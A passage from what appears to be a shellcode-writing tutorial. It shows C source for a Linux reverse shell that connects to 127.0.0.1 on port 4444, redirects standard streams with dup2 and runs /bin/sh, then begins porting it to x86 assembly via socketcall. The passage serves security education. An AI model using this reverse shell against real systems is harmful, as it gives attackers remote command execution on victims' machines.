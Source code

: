 ```cpp
	const char* ip = "127.0.0.1";

	// address struct
	struct sockaddr_in addr;
	addr.sin_family = AF_INET;
	addr.sin_port = htons(4444);
	inet_aton(ip, &addr.sin_addr);

	// socket syscall
	int sockfd = socket(AF_INET, SOCK_STREAM, 0);

	// connect syscall
	connect(sockfd, (struct sockadr *)&addr, sizeof(addr));

	for (int i = 0; i < 3; i++) {
		// dup2(sockftd, 0) - stdin
		// dup2(sockfd, 1) - stdout
		// dup2(sockfd, 2) - stderr
		dup2(sockfd, i);
	}

	// execve syscall
	execve("/bin/sh", NULL, NULL);

	return 0;
}
```

### assembly preparation

As shown in the C source code, you need to translate the following calls into Assembly language:           
 - create a socket.             
 - connect to a specified IP and port.          
 - then redirect stdin, stdout, stderr via `dup2`.      
 - launch the shell with `execve`.           

### create socket        

You need syscall `0x66` (SYS_SOCKETCALL) to basically work with sockets:

![sys_socketcall](/assets/images/14/2021-10-16_12-29.png){:class="img-responsive"}       

Then cleanup `eax` register:        
```nasm
; int socketcall(int call, unsigned long *args);
push 0x66        ; sys_socketcall 102
pop  eax         ; zero out eax
```

The next important part - the different functions calls of the socketcall syscall can be found in `/usr/include/linux/net.h`:           
